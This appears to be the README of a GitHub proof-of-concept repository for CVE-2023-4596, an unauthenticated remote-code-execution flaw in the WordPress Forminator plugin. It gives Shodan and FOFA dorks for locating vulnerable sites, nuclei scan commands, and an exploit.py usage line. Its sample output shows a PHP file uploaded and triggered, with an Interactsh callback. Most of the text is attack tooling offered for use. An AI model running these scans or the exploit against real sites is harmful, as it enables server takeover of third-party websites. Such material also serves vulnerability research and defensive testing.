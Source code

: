 # CVE-2023-4596 
![](https://img.shields.io/static/v1?label=Product&message=Wordpress&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Forminator%20<=%201.24.6&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Command%20Execution&color=red)

More information see [here.](https://securityonline.info/cve-2023-4596-critical-wordpress-plugin-forminator-flaw-affects-over-400k-sites/)

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/pull/8118/files)

```
nuclei -target <target> -t CVE-2023-4596.yaml
```
```
nuclei -target <target_file> -t CVE-2023-4596.yaml
```
- Shodan dork:
```
http.html:"/wp-content/plugins/forminator"
```
- FOFA dork:
```
body="/wp-content/plugins/forminator"
```
### Usage
```
python3 exploit.py -v -u https://target-IP/?p=7
```
```
  [+] Vulnerable version found: 1.24.6
  [+] Sending payload to target
  [+] Successful file upload!

Uploaded File Location: http://target-IP/wp-content/uploads/2023/08/QotTkAFBsf.php

  [+] Sending request to uploaded file...
  [+] Successfully triggered the uploaded file!
  [+] Check Interactsh for an incoming request.
```

